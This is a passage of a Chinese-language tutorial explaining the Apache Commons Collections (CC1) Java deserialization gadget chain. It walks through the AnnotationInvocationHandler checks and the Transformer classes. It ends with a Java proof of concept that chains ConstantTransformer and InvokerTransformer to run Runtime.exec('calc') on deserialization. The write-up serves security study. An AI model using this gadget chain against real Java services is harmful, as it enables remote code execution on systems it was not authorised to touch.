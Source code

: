 ![image.png](image12.png)

可以看到已经进了第一个`if`了

第二个`if`

要绕过（或说触发）`if (!(memberType.isInstance(value) || value instanceof ExceptionProxy))` 这个判断，核心是**让传入的 `value` 类型与 `ElementType[]` 不匹配**

`Target` 注解的 value 成员要求类型是 `ElementType[]（java.lang.annotation.ElementType` 枚举的数组）。
`memberType.isInstance(value)` 会检查 `value` 是否为 `ElementType[]` 的实例。
只要让这个检查结果为 `false`（即 `value` 不是 `ElementType[]` 类型），且 `value` 不是 `ExceptionProxy` 类型，就会进入 `if` 块。

直接传个`null`

![image.png](image13.png)

可以看到已经进到第二个`if`了

接下来就是控制调用的`setValue` 传入的参数可控

这里先找到一个常量`transform` 也就是`ConstantTransformer.transform`

![image.png](image14.png)

这里显而易见就是先传入一个类，然后调用`ConstantTransformer.transform`的时候不论传入什么都返回的是你前面传入的类，但是这样的话调用链就断了，所以还是不行

又找到一个`ChainedTransformer.transform`

![image.png](image15.png)

这段代码的功能就是你传入的第一个`Transformer`的输出作为第二个`Transformer`的输入

所以代码就可以这样写

```java
public void CCTransformer() throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        );
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                constantTransformer,
                invokerTransformer
        });
        HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
        objectObjectHashMap.put("value",null);
        Map<Object,Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decorate);
        serializable(o);
        unserializable("ser.bin");
    }
```
